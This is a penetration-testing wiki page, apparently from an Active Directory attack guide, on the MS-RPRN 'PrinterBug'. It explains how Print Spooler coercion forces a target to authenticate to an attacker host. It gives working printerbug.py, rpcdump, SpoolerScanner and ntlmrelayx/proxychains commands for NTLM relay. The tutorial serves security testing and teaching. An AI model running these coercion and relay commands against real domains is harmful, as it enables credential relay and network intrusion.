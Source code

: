 ```yaml
---
authors: ShutdownRepo, sckdev
category: ad
---
```


# MS-RPRN abuse (PrinterBug)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

The coerced authentications are made over SMB. But MS-RPRN abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

> [!TIP]
> The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

::: tabs

=== printerbug

Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```


=== rpcdump

Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```


=== SpoolerScanner

Check if the spooler service is available

```
Import-Module .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```


=== ntlmrelayx

In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```

:::


> [!TIP]
> **Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.

## Resources

[https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)